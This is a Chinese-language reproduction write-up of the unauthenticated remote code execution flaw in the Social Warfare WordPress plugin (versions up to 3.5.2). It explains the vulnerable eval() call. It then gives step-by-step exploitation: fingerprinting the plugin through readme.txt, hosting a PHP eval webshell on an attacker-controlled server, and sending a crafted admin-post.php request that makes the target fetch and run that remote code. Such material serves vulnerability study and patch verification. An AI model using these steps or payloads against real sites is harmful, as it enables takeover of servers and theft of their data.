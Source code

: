 WordPress Plugin - Social Warfare\<=3.5.2 RCE
=============================================

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

![](resource/WordPressPlugin-SocialWarfare=3.5.2RCE/media/rId25.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![](resource/WordPressPlugin-SocialWarfare=3.5.2RCE/media/rId27.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image

